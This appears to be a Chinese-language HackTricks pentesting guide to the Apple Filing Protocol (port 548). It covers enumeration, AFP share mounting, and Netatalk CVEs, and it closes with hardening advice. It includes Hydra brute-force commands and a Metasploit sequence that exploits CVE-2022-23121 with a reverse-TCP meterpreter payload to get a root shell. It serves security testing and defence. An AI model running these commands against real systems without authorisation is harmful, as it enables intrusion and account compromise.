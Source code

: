 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## 基本信息

**Apple Filing Protocol** (**AFP**)，曾被称为 AppleTalk Filing Protocol，是一种专门的网络协议，包含在 **Apple File Service** (**AFS**) 中。它旨在为 macOS 和经典 Mac OS 提供文件服务。AFP 的特点是支持 Unicode 文件名、POSIX 风格和 ACL 权限、资源分叉、命名扩展属性以及复杂的文件锁定机制。

尽管 AFP 在现代 macOS 版本中已被 SMB 取代（自 OS X 10.9 起，SMB 为默认协议），但仍然可以在以下环境中遇到：

* 传统的 macOS / Mac OS 9 环境
* 嵌入开源 **Netatalk** 守护进程的 NAS 设备（QNAP、Synology、Western Digital、TrueNAS…）
* 仍启用 Time-Machine-over-AFP 的混合操作系统网络

**默认 TCP 端口：** **548**（AFP over TCP / DSI）
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## 枚举

### 快速横幅 / 服务器信息
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
有用的 AFP NSE 脚本：

| 脚本 | 功能 |
|--------|--------------|
| **afp-ls**            | 列出可用的 AFP 卷和文件 |
| **afp-brute**         | 对 AFP 登录进行密码暴力破解 |
| **afp-serverinfo**    | 转储服务器名称、机器类型、AFP 版本、支持的 UAM 等 |
| **afp-showmount**     | 列出共享及其 ACL |
| **afp-path-vuln**     | 检测（并可以利用）目录遍历，CVE-2010-0533 |

如果需要更多控制，可以将 NSE 暴力破解脚本与 Hydra/Medusa 结合使用：
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### 与共享交互

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (使用 `afpfs-ng` ‑ 大多数发行版中打包)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
一旦挂载，请记住经典的 Mac 资源分支作为隐藏的 `._*` AppleDouble 文件存储 – 这些文件通常包含 DFIR 工具遗漏的有趣元数据。

---

## 常见漏洞与利用

### Netatalk 未经身份验证的 RCE 链 (2022)

多个 NAS 供应商发布了 **Netatalk ≤3.1.12**。在 `parse_entries()` 中缺乏边界检查使攻击者能够构造恶意的 **AppleDouble** 头并在身份验证之前获得 **远程根权限** (**CVSS 9.8 – CVE-2022-23121**)。NCC Group 提供了关于利用 Western-Digital PR4100 的完整报告和 PoC。

Metasploit (>= 6.3) 提供了模块 `exploit/linux/netatalk/parse_entries`，该模块通过 DSI `WRITE` 传递有效载荷。
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
如果目标运行受影响的 QNAP/Synology 固件，成功利用将获得 **root** 权限的 shell。

### Netatalk OpenSession 堆溢出 (2018)

较旧的 Netatalk (3.0.0 - 3.1.11) 存在 **DSI OpenSession** 处理程序中的越界写入漏洞，允许未经身份验证的代码执行 (**CVE-2018-1160**)。Tenable Research 发布了详细的分析和 PoC。

### 其他显著问题

* **CVE-2022-22995** – 符号链接重定向导致任意文件写入 / RCE，当启用 AppleDouble v2 时 (3.1.0 - 3.1.17)。
* **CVE-2010-0533** – Apple Mac OS X 10.6 AFP 中的目录遍历 (由 `afp-path-vuln.nse` 检测)。
* 在 **Netatalk 4.x (2024)** 中修复了多个内存安全漏洞 – 建议升级而不是修补单个 CVE。

---

## 防御建议

1. **禁用 AFP**，除非严格需要 – 使用 SMB3 或 NFS。
2. 如果必须保留 AFP，**升级 Netatalk 至 ≥ 3.1.18 或 4.x**，或应用供应商固件以回溯 2022/2023/2024 的补丁。
3. 强制执行 **强 UAMs** (例如 *DHX2*)，禁用明文和访客登录。
4. 将 TCP 548 限制在受信任的子网内，并在远程暴露时将 AFP 包裹在 VPN 内。
5. 定期使用 `nmap -p 548 --script afp-*` 在 CI/CD 中扫描，以捕捉流氓 / 降级设备。

---

### [暴力破解](../generic-hacking/brute-force.md#afp)

## 参考文献

* Netatalk 安全公告 CVE-2022-23121 – "parse_entries 中的任意代码执行" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "利用一个 18 年的漏洞 (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
